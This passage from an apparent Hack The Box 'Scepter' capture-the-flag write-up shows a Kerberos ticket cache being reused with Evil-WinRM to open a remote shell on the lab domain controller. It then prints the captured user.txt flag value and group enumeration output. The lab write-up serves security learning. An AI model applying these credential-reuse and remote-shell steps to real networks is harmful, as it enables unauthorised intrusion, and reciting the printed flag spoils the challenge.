 We `exported` the `h.brown.ccache` to our `session` and specified the `realm` in `Evil-WinRM`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ export KRB5CCNAME=h.brown.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ evil-winrm -i dc01.scepter.htb -r SCEPTER.HTB -u h.brown
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\h.brown\Documents>
```

## user.txt

With as `session` as `h.brown` we could grab the `user.txt` and move on.

```shell
*Evil-WinRM* PS C:\Users\h.brown\Desktop> type user.txt
9ded37a783af624956b53f88d59ea8e3
```

## Enumeration

A quick check on the permissions and the files on the box itself didn't showed anything useful.

```shell
*Evil-WinRM* PS C:\Users\h.brown\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== ==========================================
scepter\h.brown S-1-5-21-74879546-916818434-740295365-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                        Attributes
=========================================== ================ ========================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                    Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                               Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                               Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                               Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                               Mandatory group, Enabled by default, Enabled group
```